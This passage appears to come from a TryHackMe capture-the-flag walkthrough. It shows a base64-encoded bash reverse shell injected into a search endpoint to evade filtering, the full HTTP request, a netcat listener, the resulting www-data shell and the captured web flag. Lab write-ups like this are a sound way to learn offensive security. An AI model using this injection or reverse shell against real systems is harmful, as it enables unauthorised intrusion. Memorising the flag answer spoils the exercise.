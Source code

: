 ## Reverse shell

I tried to inject a bash reverse shell, but I failed because of the filtering policy. Fortunately by encoding the payload using base64 method, I was able to inject the reverse shell. First create your payload:

~~~
$ echo -n "bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1" | base64         
~~~

Now open a listenr (`rlwrap nc -lvnp 4444`) and send the payload using `burpsuite`. The request should look like the following:

~~~
POST /assets/php/search.php HTTP/1.1
Host: 10.10.64.137
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 13
Origin: http://10.10.64.137
Authorization: Basic cmFzY2FsOmdhYmJ5MQ==
Connection: close
Referer: http://10.10.64.137/

{"target":"\";echo <YOUR BASE64 ENCODED PAYLOAD> | base64 -d | bash; \""}
~~~

Now we have a shell as `www-data`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Year_of_the_Fox]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.77] from (UNKNOWN) [10.10.64.137] 51528
bash: cannot set terminal process group (649): Inappropriate ioctl for device
bash: no job control in this shell
www-data@year-of-the-fox:/var/www/html/assets/php$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## Web flag

Now we can read the web flag located in `/var/www`:

~~~
www-data@year-of-the-fox:/var/www$ cat web-flag.txt
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}
~~~

Web flag: `THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}`

## www-dat -> fox
